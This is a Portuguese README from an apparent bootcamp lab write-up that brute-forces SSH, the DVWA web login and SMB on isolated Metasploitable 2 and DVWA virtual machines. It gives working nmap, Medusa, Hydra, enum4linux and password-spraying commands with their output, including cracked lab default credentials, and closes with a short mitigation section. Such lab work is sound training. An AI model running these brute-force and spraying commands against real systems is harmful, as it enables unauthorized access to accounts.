



# Desafio de Força Bruta – DIO

**⚠️ Aviso Ético**
Este repositório contém material **exclusivamente para fins educativos** em ambiente **isolado e controlado**. Todas as atividades foram realizadas em máquinas virtuais (VirtualBox) sem acesso à internet e **não devem** ser reproduzidas em redes ou sistemas reais sem autorização explícita do proprietário.

---

## 1. Ambiente e Topologia

| VM | Sistema Operacional | Função | IP (Host‑Only) |
|----|---------------------|--------|----------------|
| **Kali Linux** | Kali 2024.x | Atacante | **192.168.56.102** |
| **Metasploitable 2** | Ubuntu 8.04 (Linux) | Alvo – SSH, SMB, serviços variados | **192.168.56.101** |
| **DVWA** (Docker/VM) | Debian/Apache/PHP | Alvo – aplicação web vulnerável | **192.168.56.101** (porta 80) |

A rede **host‑only** garante que nenhum tráfego saia da sandbox.

---

## 2. Reconhecimento

```bash
nmap -sV 192.168.56.101
```

**Saída resumida**

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp open  telnet  Linux telnetd
25/tcp open  smtp    Postfix smtpd
53/tcp open  domain  ISC BIND 9.4.2
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) DAV/2)
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

O scan revelou serviços vulneráveis (SSH, SMB, HTTP) que foram alvos dos testes subsequentes.

---

## 3. Geração das Wordlists

O script `gerar_wordlists.py` (com flag `--saida`) foi usado para gerar ambos os arquivos de uma única vez, com listas internas diferentes:

```bash
python3 gerar_wordlists.py --saida ./wordlists
```

* `usuarios.txt` – nomes como `admin`, `klog`, `msfadmin`, `postgres`, … (gerados a partir da combinação de USUARIOS_METASPLOITABLE, USUARIOS_SMB_COMUNS e USUARIOS_DVWA).
* `senhas.txt` – combinações como `123456`, `password`, `letmein`, `batman`, etc. (geradas a partir de SENHAS_FRACAS_COMUNS, SENHAS_PADRAO_METASPLOITABLE e SENHAS_PADRAO_DVWA, com variações opcionais de ano e leet-speak).

A flag `--saida` define a pasta de saída (padrão: `./wordlists`), e o script escreve automaticamente tanto o `usuarios.txt` quanto o `senhas.txt` com conteúdo adequado para cada tipo de ataque.

---

## 4. Ataque 1 – SSH

### 4.1 Medusa

```bash
medusa -h 192.168.56.101 \
       -U /home/kali/wordlists/usuarios.txt \
       -P /home/kali/wordlists/senhas.txt \
       -M ssh -t 20 > medusa_res.txt
```

**Credenciais encontradas**

```
2026-11-06 17:27:51 ACCOUNT FOUND: [ssh] Host: 192.168.56.101 User: klog Password: 123456789 [SUCCESS]
2026-11-06 17:28:20 ACCOUNT FOUND: [ssh] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
2026-11-06 17:30:32 ACCOUNT FOUND: [ssh] Host: 192.168.56.101 User: postgres Password: postgres [SUCCESS]
2026-11-06 17:32:13 ACCOUNT FOUND: [ssh] Host: 192.168.56.101 User: service Password: service [SUCCESS]
2026-11-06 17:33:33 ACCOUNT FOUND: [ssh] Host: 192.168.56.101 User: sys Password: batman [SUCCESS]
2026-11-06 17:34:20 ACCOUNT FOUND: [ssh] Host: 192.168.56.101 User: user Password: user [SUCCESS]
```



### 4.2 Hydra (não executado com sucesso)

Tentativa de login via Hydra falhou antes de iniciar o brute force:

```
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non‑binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-07 11:29:15
[DATA] max 5 tasks per 1 server, overall 5 tasks, 3468 login tries (l:17/p:204), ~694 tries per task
[DATA] attacking ssh://192.168.56.101:22/
[ERROR] could not connect to ssh://192.168.56.101:22 - kex error : no match for method mac algo client->server: server [hmac-md5,hmac‑sha1,umac‑64@openssh.com,hmac‑ripemd160,hmac‑ripemd160@openssh.com,hmac‑sha1‑96,hmac‑md5‑96], client [hmac‑sha2‑256‑etm@openssh.com,hmac‑sha2‑512‑etm@openssh.com,hmac‑sha2‑256,hmac‑sha2‑512]
```

**Por que falhou?** O servidor SSH do Metasploitable 2 aceita apenas algoritmos MAC antigos (ex.: `hmac‑md5`, `hmac‑sha1`). O cliente Hydra, por padrão, oferece apenas algoritmos MAC mais modernos (ex.: `hmac‑sha2‑256`). Como não há interseção entre as listas, a negociação de chave (KEX) falha e a conexão não é estabelecida.

---

## 5. Ataque 2 – DVWA (Login)

```bash
hydra 'http-post-form://192.168.56.101/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed' \
      -L /home/kali/wordlists/usuarios.txt \
      -P /home/kali/wordlists/senhas.txt -t 5 > hydra_dvwa.txt
```

### 5.1 Resultados (níveis Low/Medium)

```
[80][http-post-form] host: 192.168.56.101 login: 1337    password: charley
[80][http-post-form] host: 192.168.56.101 login: admin   password: password
[80][http-post-form] host: 192.168.56.101 login: gordonb password: abc123
[80][http-post-form] host: 192.168.56.101 login: pablo   password: letmein
[80][http-post-form] host: 192.168.56.101 login: smithy  password: password
```

**5 credenciais válidas** encontradas nos níveis **Low** e **Medium** —
`1 of 1 target successfully completed, 5 valid passwords found` (Hydra,
execução de 2026-11-06 18:39–18:43, ~955 tentativas/min).



### 5.2 Falha no nível High

Não foi possível atacar o nível **High** porque o login requer um **token CSRF** e um redirecionamento 302 (PRG) que nem Hydra nem Medusa conseguem manipular dinamicamente.

### 5.3 Medusa vs Hydra (DVWA)

* **Medusa**: possui módulo `web‑form` que suporta POST, porém **não extrai tokens CSRF nem segue redirecionamentos 302 (PRG)**. Isso afeta **todos os níveis** (Low, Medium e High), pois o login.php do DVWA utiliza o padrão PRG (Post/Redirect/Get) que exige o tratamento correto do cabeçalho Location após o POST — algo que o módulo web-form da Medusa não consegue fazer de forma confiável. Portanto, a falha não é exclusiva do nível High.

* **Hydra**: também não lida com tokens CSRF nem segue o fluxo PRG. Contudo, o Hydra tem melhor suporte a formulários HTTP, funcionando nos níveis **Low e Medium** (onde o login não exige token CSRF). No nível **High**, o Hydra falha exclusivamente pela ausência de token CSRF no formulário submetido.

* **Resumo**: O Medusa falha em **todos os níveis** (Low, Medium e High) devido à incapacidade de seguir o redirect 302 do padrão PRG do login.php. Já o Hydra funciona em Low/Medium e falha apenas no High, por causa da ausência de token CSRF que impede a validação no nível mais restrito.

---

## 6. Ataque 3 – SMB

### 6.1 Enumeração pré‑ataque (enum4linux)

```bash
enum4linux -a 192.168.56.101 > enum4linux_res.txt
```

**Principais informações obtidas**

```
Target ........... 192.168.56.101
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
[+] Server 192.168.56.101 allows sessions using username '', password ''
[+] Minimum password length: 5
[+] Password Complexity Flags: 000000 (desativado)
```

> Não há *Account Lockout Threshold* definido, indicando que bloqueios de conta não serão disparados durante o teste.

### 6.2 Lista de usuários obtida via RID cycling

```
games, nobody, bind, proxy, syslog, user, www-data, root, news, postgres, bin, mail, distccd, proftpd, dhcp, daemon, sshd, man, lp, mysql, gnats, libuuid, backup, msfadmin, telnetd, sys, klog, postfix, service, list, irc, ftp, tomcat55, sync, uucp
```

### 6.3 Estratégia de ataque (password spraying)

O script `pass_spray.sh` testou **uma senha por vez** contra **todos os usuários** listados em `usuarios_smb.txt` (password spraying).

```bash
while IFS= read -r senha; do
    echo "=== Testando senha: $senha ==="
    medusa -h 192.168.56.101 -U /home/kali/usuarios_smb.txt -p "$senha" -M smbnt >> smb_res.txt
done < /home/kali/wordlists/senhas.txt
```

### 6.4 Resultados do password spray

```
2026-11-07 10:45:22 ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
2026-11-07 10:46:08 ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: user Password: user [SUCCESS (ADMIN$ - Access Allowed)]
```



### 6.5 Validação manual com `smbclient`

```bash
smbclient -L 192.168.56.101 -U msfadmin
```

```
Password for [WORKGROUP\msfadmin]:
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
tmp             Disk      oh noes!
opt             Disk
IPC$            IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
ADMIN$          IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
msfadmin        Disk      Home Directories
```

---

## 7. Mitigações

### 7.1 Configurações teóricas do **fail2ban** (não aplicadas)
* **SSH** – `sshd` jail
* **DVWA** – `dvwa-login` jail (rate‑limiting no `login.php`)
* **Samba** – `samba` jail

### 7.2 Limitações encontradas
* **Metasploitable 2** roda **Ubuntu 8.04 (2008)**, sem repositórios atualizados, impedindo a instalação do `fail2ban`.
* Sistemas legados podem **não suportar ferramentas modernas de defesa**, exigindo atualização ou isolamento.

---

## 8. Conclusões e Aprendizados

| Item | Lições Principais |
|------|-------------------|
| Reconhecimento | Um único scan `nmap -sV` já identifica serviços críticos que são alvos imediatos. |
| SSH | Medusa encontrou 6 credenciais válidas; Hydra falhou devido à incompatibilidade de algoritmos MAC entre cliente e servidor. |
| DVWA | Níveis *Low* e *Medium* vulneráveis a força bruta simples; *High* requer token CSRF que as ferramentas não suportam. |
| SMB | Enum4linux fornece lista real de usuários e política de senha fraca; password spraying revelou duas credenciais válidas. |
| Fail2Ban | Não aplicável em sistemas legados como Metasploitable 2, reforçando a necessidade de atualização ou isolamento. |
| Ambiente | Rede host‑only garante segurança legal e técnica, permitindo experimentação livre de riscos externos. |

---

## 9. Referências

- **DVWA** – https://github.com/digininja/DVWA
- **Kali Linux** – https://www.kali.org/
- **Metasploitable 2** – https://sourceforge.net/projects/metasploitable/
- **Medusa** – https://github.com/jmk-foofus/medusa
- **Hydra** – https://github.com/vanhauser-thc/thc-hydra
- **Nmap** – https://nmap.org/
- **enum4linux** – http://labs.portcullis.co.uk/application/enum4linux/
- **Fail2Ban** – https://www.fail2ban.org/